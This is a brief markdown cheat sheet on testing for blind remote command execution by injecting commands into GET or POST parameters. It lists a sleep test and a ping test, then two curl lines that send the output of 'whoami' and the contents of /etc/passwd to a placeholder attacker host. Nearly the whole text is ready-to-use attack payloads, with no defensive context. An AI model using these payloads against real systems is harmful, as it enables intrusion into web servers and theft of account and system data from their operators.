 # Blind remote code execution

Insert commands in GET or POST parameters.

## Sleep test

`sleep 5`

## Ping test

Use wireshark to pick up ICMP packets. `-c` is required for Linux hosts.

`ping <LOCAL_IP> -c 5`

## Curl exfiltration

```
curl http://<LOCAL_IP>/`whoami`
```

```
curl -X POST http://<LOCAL_IP>/ --data "`cat /etc/passwd`"
```